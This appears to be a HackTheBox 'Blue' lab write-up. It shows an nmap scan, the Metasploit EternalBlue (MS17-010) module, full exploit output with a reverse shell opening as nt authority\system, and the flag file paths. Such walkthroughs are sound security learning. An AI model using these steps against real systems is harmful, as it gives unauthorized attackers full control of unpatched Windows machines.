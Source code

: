 ```yaml
---
layout: page
title: HackTheBox Blue
---
```


### Enumeration 
First I do an nmap scan ```nmap -sC -sV -oA scan 10.10.10.40```. Here's what it outputs:
![nmap scan](https://user-images.githubusercontent.com/41026969/53510149-4d1b2300-3a8b-11e9-86af-d4d14c86671c.PNG)

So doing research on the ports, OS versions, SMB version, and potential exploits, I found out about [EternalBlue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue). Here's the link for the Microsoft webpage explanation [here](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/MS17-010). Cross checking, I see this machine can be used using Eternalblue (and thus the name of this box). 

### Exploitation

So for this exploit we'll use the metasploit module: ```exploit/windows/smb/ms17_010_eternalblue```

Opening up metasploit and setting up the module:

![blue](https://user-images.githubusercontent.com/41026969/54173251-925e2e00-4457-11e9-8de9-4d9263560d9d.PNG)

Also we see that the RHOST (remote host) is currently set to nothing so I set it to 10.10.10.40 (the IP of the box).

When we run the exploit, we successfully get a shell inside the box:
```
msf exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on [host ip]
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened ([host ip] -> 10.10.10.40:49158) at 2019-03-11 23:41:30 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Doing a ```whoami``` check confirms we got basically administrator access (```nt authority\system``` has the highest priviledges on the local system).

Thus we find the flags:

root: ```C:\Users\Administrator\Desktop\root.txt``` 

user: ```C:\Users\haris\Desktop\user.txt``` 